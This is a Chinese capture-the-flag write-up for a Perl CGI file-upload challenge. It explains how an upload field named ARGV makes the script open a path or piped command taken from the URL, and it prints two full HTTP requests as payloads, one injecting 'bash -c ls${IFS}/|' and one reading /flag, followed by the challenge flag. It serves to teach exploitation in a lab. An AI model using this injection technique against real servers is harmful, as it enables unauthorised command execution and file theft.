 # i_god_id_200

## 思路分析

> 打开网站,点击Files会跳转到/cgi-bin/file.pl文件中进行执行.这里可以上传任何一个文件,然后会在下方打印出内容.那么我们猜测后台使用了param()函数.

> param()函数会返回一个列表的文件,但是只有第一个文件会被放入到下面的file变量中.如果我们传入一个ARGV的文件,那么Perl会将传入的参数作为文件名读出来.在正常的上传文件前面加上一个文件上传项ARGV,然后在URL中传入文件路径参数,可以实现读取任意文件.ARGV是PERL默认用来接收参数的数组,不管脚本里有没有把它写出来,它始终是存在的.

> 题解就是直接读取flag文件或者通过使用IFS作为命令分割,查看根目录有哪些文件,IFS为shell的字段分隔符,可将字符串按照特性的格式进行分割

## payload

```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1
Host: 61.147.171.105:59518
Content-Length: 409
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:59518
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8uk0irNsl07ecKM5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:59518/cgi-bin/file.pl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D
Connection: close

------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

test
------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="Submit!"

Submit!
------WebKitFormBoundary8uk0irNsl07ecKM5--
```

```
POST /cgi-bin/file.pl?/flag HTTP/1.1
Host: 61.147.171.105:59518
Content-Length: 409
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:59518
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8uk0irNsl07ecKM5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:59518/cgi-bin/file.pl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D
Connection: close

------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

test
------WebKitFormBoundary8uk0irNsl07ecKM5
Content-Disposition: form-data; name="Submit!"

Submit!
------WebKitFormBoundary8uk0irNsl07ecKM5--
```

## flag

> cyberpeace{beeeb3cbab1f59ad86d5ccd71e1592fa}